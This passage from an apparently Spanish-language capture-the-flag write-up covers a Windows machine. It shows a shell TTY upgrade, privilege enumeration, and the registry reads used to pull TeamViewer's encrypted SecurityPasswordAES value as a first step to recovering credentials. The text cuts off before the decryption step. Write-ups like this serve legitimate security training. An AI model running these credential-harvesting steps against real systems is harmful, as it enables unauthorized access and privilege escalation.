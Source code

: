 ### Tratamiento de la TTY {-}

```bash
^Z
stty raw -echo; fg
Enter
whoami
whoami
cd C:\
cd C:\
```

Aqui ya podemos ver la flag en el directorio Public.
## Privilege Escalation {-}

### Rootear la maquina {-}

```powershell
whoami
systeminfo
whoami /priv
```

Aqui vemos que tenemos privilegios SeImpersonatePrivilege. Podriamos tratar de utilizar el JuicyPotato pero en este caso vamos a hacerlo de otra forma.
Si hacemos 

```powershell
tasklist
```

Vemos que hay un **TeamViewer_Service.exe**. 

```bash
locate teamviewer | grep "metasploit"
cat /usr/share/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.rb
```

Como no vamos a utilizar metasploit nos creamos un script en python, pero primero miramos el script y recuperamos la version y la contraseña cifrada.

```powershell
cd C:\
cd PROGR~1
dir
cd PROGR~2
dir
cd TeamViewer
dir
#Output Version7

cd HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7
Get-itemproperty -Path .
(Get-itemproperty -Path .).SecurityPasswordAES
```
